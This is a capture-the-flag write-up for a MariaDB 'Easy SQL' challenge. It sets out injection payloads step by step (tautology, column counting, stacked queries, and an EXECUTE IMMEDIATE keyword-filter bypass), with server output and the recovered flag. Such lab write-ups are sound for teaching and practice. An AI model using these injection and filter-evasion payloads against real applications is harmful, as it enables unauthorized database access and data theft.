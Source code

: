 ```yaml
---
description: 'Filtered MariaDB injection, stacked queries'
---
```


# Easy SQL \(200\)

### Basic Payload

`1' or '1'='1`

```text
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}
```

### Finding Number of Columns

`1' ORDER BY 2 -- -`: No error 

`1' ORDER BY 3 -- -`: error 1054 : Unknown column '3' in 'order clause'

So there are 2 columns

### Stacked Queries

Many keywords, such as SELECT and UNION, are filtered out by regex. However, it appears stacked queries are allowed.

`1'; SHOW DATABASES;`

```text
array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}
```

`1'; SHOW TABLES;`

```text
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

`1'; DESCRIBE words;`

```text
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(11)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(3) "PRI"
  [4]=>
  NULL
  [5]=>
  string(14) "auto_increment"
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

``1'; DESCRIBE `1919810931114514`;``

`1'; USE information_schema; SHOW TABLES;`

`1'; SHOW PROCEDURE STATUS; SHOW FUNCTION STATUS;`

### Execute Immediate

Unlike MySQL, MariaDB supports the `EXECUTE IMMEDIATE` command which will execute a string as an SQL query.

`1';EXECUTE IMMEDIATE CONCAT('SEL', 'ECT * FROM words');`

``1';EXECUTE IMMEDIATE CONCAT('SEL', 'ECT * FROM `1919810931114514`');``

Note the backticks around 1919810931114514, they are needed to prevent the table name from being interpreted as a number.

```text
array(1) {
  [0]=>
  string(73) "DSO-NUS{427a3c725d559d066e010131695880665436761182ac104f72d6a5d70912c2e6}"
}
```

